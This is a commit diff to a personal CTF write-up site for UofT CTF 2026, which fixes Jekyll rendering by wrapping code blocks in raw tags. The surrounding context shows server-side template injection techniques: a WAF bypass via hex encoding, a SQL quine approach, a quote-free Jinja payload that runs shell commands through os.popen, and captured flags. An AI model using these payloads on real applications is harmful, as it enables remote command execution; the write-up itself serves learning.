

Before and after one commit to claustra01/my-ctf-writeups, a Jekyll site: the page built from _writeups/uoft_ctf_2026.md, in a window 1280 px wide and 900 px high, scrolled down 16292 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
fix: broken biews

````diff
--- a/_writeups/uoft_ctf_2026.md
+++ b/_writeups/uoft_ctf_2026.md
@@ -342,7 +342,7 @@ def home():
     return render_template_string(open("templates/home.html").read() % session["user"])
 ```
 
-If `session["user"]` is like `{{ 7*7 }}`, SSTI will be awakened.
+If `session["user"]` is like {% raw %}`{{ 7*7 }}`{% endraw %}, SSTI will be awakened.
 By the way, This application uses MariaDB. MariaDB parses hex to string automated. So I can embed SSTI payload in hex.
 
 To bypass waf, I used `\` like this:
@@ -352,6 +352,7 @@ To bypass waf, I used `\` like this:
 ```
 
 My final solver:
+{% raw %}
 ```py
 import requests
 import binascii
@@ -406,6 +407,7 @@ def solve():
 if __name__ == "__main__":
     solve()
 ```
+{% endraw %}
 `uoftctf{w0w_y0u_5UcC355FU1Ly_Esc4p3d_7h3_57R1nG!}`
 
 
@@ -683,11 +685,14 @@ if not username == row[0] or not password == row[1]:
 I used SQL Quine technique like this: `REPLACE(<Template>, <Placeholder>, HEX(<Template>))`
 Also I can't use quotes in payload, so I made webshell without quotes and sent command with query `?c=/readflag` in /home.
 My new SSTI payload (non-quotes) is:
+{% raw %}
 ```
 {{ url_for.__globals__.os.popen(request.args[request.args|list|first]).read() if request.args else 1 }}
 ```
+{% endraw %}
 
 Final solver:
+{% raw %}
 ```py
 import requests
 import re
@@ -744,6 +749,7 @@ def solve():
 if __name__ == "__main__":
     solve()
 ```
+{% endraw %}
 `uoftctf{d1d_y0u_wR173_4_pr0P3r_qU1n3_0r_u53_INFORMATION_SCHEMA???}`
 
 
````
Also changed, not shown: other parts of _writeups/uoft_ctf_2026.md (+1 -1 lines).
